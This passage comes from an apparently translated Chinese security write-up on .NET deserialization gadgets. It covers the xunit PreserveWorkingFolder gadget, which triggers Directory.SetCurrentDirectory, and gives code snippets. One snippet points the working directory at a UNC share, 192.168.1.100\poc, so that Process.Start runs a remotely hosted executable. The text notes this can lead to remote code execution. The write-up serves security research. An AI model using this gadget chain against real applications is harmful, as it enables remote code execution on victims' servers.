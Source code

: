 代码段 49 PreserverWorkingFolder gadget

描述：

在深入了解小工具的详细信息之前，让我们关注一下`Directory.SetCurrentDirectory` 方法。这个 `.NET Framework` 方法导致了 Windows 的 `winbase!SetCurrentDirectory18` 调用。简而言之，它允许我们为进程设置当前目录。参考以下代码片段：

```plain
File.WriteAllText("test.txt", "test"); // Writes to  
C:\inetpub\wwwroot\applicationdir\test.txt 
Directory.SetCurrentDirectory("C:\\Users\\Public\\"); // Change dir to  
C:\Users\Public 
File.WriteAllText("test.txt", "test"); // Writes to C:\Users\Public\test.txt 
Directory.SetCurrentDirectory(origDir); 
Process.Start("tracert.exe", "8.8.8.8"); // run C:\Windows\System32\tracert.exe 

Directory.SetCurrentDirectory("\\\\192.168.1.100\\poc\\"); // Change dir to  
\\192.168.1.100\poc 
Process.Start("tracert.exe", "8.8.8.8"); // run \\192.168.1.100\poc\tracert.exe,  
may be blocked by various policies
```

代码段 50 Testing Directory.SetCurrentDirectory 方法

可以看到，当攻击者可以更改应用程序的目录时，他可以在执行基于相对路径的文件操作时将应用程序指向不同的位置。在更大的应用程序中，可以找到将其转化为远程代码执行（RCE）、信息泄露等的创造性方法。

`PreserveWorkingFolder` 小工具允许我们通过反序列化实现 `Directory.SetCurrentDirectory` 的调用。让我们验证它的唯一构造函数。

```plain
public PreserveWorkingFolder(IAssemblyInfo assemblyInfo) 
{ 
    this.originalWorkingFolder = Directory.GetCurrentDirectory(); 
    if (!string.IsNullOrEmpty(assemblyInfo.AssemblyPath)) 
    { 

Directory.SetCurrentDirectory(Path.GetDirectoryName(assemblyInfo.AssemblyPath)); 
// [1] 
    } 
}
```

代码段 51 PreserveWorkingFolder constructor

在 \[1\] 处，我们进入了 `Directory.SetCurrentDirectory`，其中输入等于 `assemblyInfo.AssemblyPath`。`assemblyInfo` 对象作为构造函数的参数提供，并且它必须实现 `Xunit.Abstractions.IAssemblyInfo` 接口。在这里，我们可以使用 `Xunit.Xunit1AssemblyInfo` 类：

```plain
public class Xunit1AssemblyInfo : IAssemblyInfo 
{ 
    public Xunit1AssemblyInfo(string assemblyFileName) 
    { 
        this.AssemblyFileName = assemblyFileName; // [1] 
    } 

    string IAssemblyInfo.AssemblyPath // [2] 
    { 
        get 
        { 
            return this.AssemblyFileName; 
        } 
    } 
    ... 
}
```
